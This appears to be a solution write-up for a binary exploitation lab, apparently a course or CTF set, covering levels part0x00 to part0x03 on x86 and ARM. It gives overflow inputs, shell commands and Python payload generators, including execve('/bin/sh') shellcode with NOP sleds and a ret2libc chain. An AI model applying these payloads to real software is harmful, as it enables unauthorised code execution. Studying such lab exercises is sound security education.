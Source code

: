 # Solution:

## part 0

### x86

part0 x86: f01aa318b134682ca30886824d267c3c
input: 

command: `./part0x00`

### arm

part0 arm: 81965669ac87a7de524c1cf68b4e3e60
input:

command: `./part0x00`

## part 1

### x86

part1 x86: ab2b3751d7c03ad34660be0ba7f2fa42
input: 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH\xdb\x85\x04\x08'

command:
`echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH\xdb\x85\x04\x08' | ./part0x01`

### arm

part2 arm: ad9ed34a9bd958c558157c91b37504b4
input: \x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x42\x42\x42\x42\xa0\x05\x01\x00

command: 
`echo -e '\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x42\x42\x42\x42\xa0\x05\x01\x00' | ./part0x01`

payload code:
```
import struct
padding = "AAAAAAAAAAAAAAAABBBBBBBB"
system = struct.pack("I", 0x000105a0)
s = padding + system
# print (s)
s1 = "\\x".join("{:02x}".format(ord(c)) for c in s)
print (s1)
```

## part 2

### x86

part2 x86: 10467e5e194180c70c9f4f07fa7150f1
input: 

command:
`env -i ./part0x02 /tmp/kunal29_testpayload8`

payload code:
```
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"
eip = struct.pack("I",  0xffffcf30) # submissionVM x86 # use strace -e raw=read 
nopslide = "\x90"*1000
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
s = padding+eip+nopslide+payload
print (s)
```

### arm

part2 arm: 5fdefc407d56d4c381ff621149fa5a7b
input: 


command: 
`./part0x02 /tmp/kunalx09_payload5`

payload code:
```
padding = "AAAAAAAAAAAAAAAABBBBBBBB"
eip = struct.pack("I", 0xbeffefb8) # submissionVM arm
nopslide = "\x90"*4000 #submissionVM arm
payload = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1" + "\x03\xa0\x52\x40\xc2\x71\x05\xb4" + "\x69\x46\x0b\x27\x01\xdf\x7f\x40" + "\x2f\x62\x69\x6e\x2f\x73\x68\x41"
s = padding+eip+nopslide+payload
print(s)
```

## part 3

### x86

part2 x86: e4a984bd2e5058a317d0979d76106a75
input: 

command:
`./part0x03 /tmp/kunalx29_payload1`

payload code:
```
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"
system = struct.pack("I", 0xf7e1a250) # 0xf7e18250) # add libc
return_after_system = "AAAA"
eip = struct.pack("I", 0xf7f5b3cf) # 0xf7f593cf) # addr "/bin/sh"
s = padding + system + return_after_system + eip
print (s)
```
### arm

